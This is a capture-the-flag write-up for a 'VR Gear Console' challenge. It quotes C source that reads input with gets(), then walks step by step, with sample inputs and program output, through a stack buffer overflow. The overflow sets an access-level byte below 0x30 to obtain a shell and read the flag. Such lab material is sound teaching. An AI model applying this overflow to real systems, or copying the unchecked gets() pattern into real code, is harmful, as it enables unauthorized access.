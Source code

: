 ### VR Gear Console - 90 points

> Here's the VR gear admin console. See if you can figure out a way to log in. The problem is found here: /problems/1e50bd93be07ea1bca65a1a071e18eef

Hint:
> * What happens if you read in more characters than the length of the username buffer?
> * You should look at an ascii table to see what character you need to choose.
> * Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
> * "cat file - | vrgearconsole " will keep the pipe open for commands.

The hint tells us that we want to overflow the username.
Let's look at the code.
```c
int login() {
	int accessLevel = 0xff;
	char username[16];
	char password[32];
	printf("Username (max 15 characters): ");
	gets(username);
	printf("Password (max 31 characters): ");
	gets(password);
	...
	if (!strcmp(username, "admin") && !strcmp(password, "{{ create_long_password() }}")) {
		accessLevel = 2;                                                                           
	} else if (!strcmp(username, "root") && !strcmp(password, "{{ create_long_password() }}")) {
		accessLevel = 0;                                                                           
	} else if (!strcmp(username, "artist") && !strcmp(password, "my-password-is-secret")) {
		accessLevel = 0x80;
	}                                                                                               
	
	return accessLevel;
}
...
int main(int argc, char **argv) {
    ...
	int access = login();
    printf("Your access level is: 0x%08x\n", access);
    if (access >= 0xff || access <= 0) {
    	printf("Login unsuccessful.\n");
    	exit(10);
    } else if (access < 0x30) {
    	printf("Admin access granted!\n");
    	printf("The flag is in \"flag.txt\".\n");
    	system("/bin/sh");
    } else {
    	printf("Login successful.\n");
    	printf("You do not have permission to access this resource.\n");
   		exit(1);
   	}
}
```
By looking at the code we understand that we want our access to be lower than 0x30.
This access is calculated using login() which gets our input (without verifying the length) and does a few comparisons, therefore we can overflow it (just like the hint says).

Let's see how the the program responds to our inputs (username buffer can have 16 characters).
```
Username (max 15 characters):                                                                      
Password (max 31 characters):                                                                      
Your access level is: 0x000000ff                                                                   
Login unsuccessful.
```
Ok, let's try give it 17 characters to the username.
```
Username (max 15 characters): AAAAAAAAAAAAAAAAA
Password (max 31 characters):  
Your access level is: 0x00000041
Login successful.
You do not have permission to access this resource.
```
We're getting closer. It appears the last character is being written to the last byte of our access level. Let's confirm it!
```
Username (max 15 characters): AAAAAAAAAAAAAAAAB                                                    
Password (max 31 characters):                                                                      
Your access level is: 0x00000042                                                                   
Login successful.                                                                                  
You do not have permission to access this resource. 
```
Our assumption was correct (thank you little-endian). Now we just need it to be less than 30. Let's write an ascii character with a lower hex value ('/' with a value of 2F, for instance).
```
Username (max 15 characters): AAAAAAAAAAAAAAAA/                                                    
Password (max 31 characters):                                                                      
Your access level is: 0x0000002f                                                                   
Admin access granted!                                                                              
The flag is in "flag.txt".                                                                         
$
```
This gave us a shell. Now we can just read the flag.
```
$ ls                                                                                               
flag.txt  vrgearconsole  vrgearconsole.c                                                           
$ cat flag.txt                                                                                     
5a9aeea545615089851dd6a9b57a3139
```
Flag:
```
5a9aeea545615089851dd6a9b57a3139
```